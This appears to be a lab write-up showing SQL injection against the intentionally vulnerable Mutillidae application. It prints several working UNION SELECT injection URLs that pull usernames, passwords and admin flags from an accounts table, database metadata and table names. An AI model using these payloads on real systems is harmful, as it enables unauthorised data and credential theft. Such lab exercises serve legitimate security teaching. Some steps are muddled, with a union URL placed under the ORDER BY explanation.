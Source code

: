 <img width="1919" height="1020" alt="Screenshot 2025-10-24 174117" src="https://github.com/user-attachments/assets/5d6102cd-d24d-4a50-b4db-bd967ed280b7" />


Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

The browser url of this info page need to be modified with the url as below:

(http://10.127.213.79/mutillidae/index.php?page=user-info.php&username=Hemanath'+union+select+1,username,password,is_admin,5+from+accounts%23&password=88888&user-info-php-submit-button=View+Account+Details
)

When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.

<img width="1919" height="923" alt="Screenshot 2025-10-24 182843" src="https://github.com/user-attachments/assets/8da73f6f-9db5-4e51-96e8-8f09d219be9e" />


 As it is having 5 columns the query worked fine and it provides the correct result

<img width="1919" height="923" alt="Screenshot 2025-10-24 182843" src="https://github.com/user-attachments/assets/8da73f6f-9db5-4e51-96e8-8f09d219be9e" />



Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)

<img width="1919" height="923" alt="Screenshot 2025-10-24 182843" src="https://github.com/user-attachments/assets/8da73f6f-9db5-4e51-96e8-8f09d219be9e" />


As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
 Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

 http://10.127.213.79/mutillidae/index.php?page=user-info.php&username=x'+union+select+1,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details


<img width="1919" height="932" alt="Screenshot 2025-10-24 182930" src="https://github.com/user-attachments/assets/76b7ac21-aa24-4718-8617-3638ca29d188" />


The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5.
In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one:
union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

(http://10.127.213.79/mutillidae/index.php?page=user-info.php&username=x'+union+select+1,GROUP_CONCAT(table_name),null,null,5+from+information_schema.tables+where+table_schema='owasp10'%23&password=&user-info-php-submit-button=View+Account+Details
)
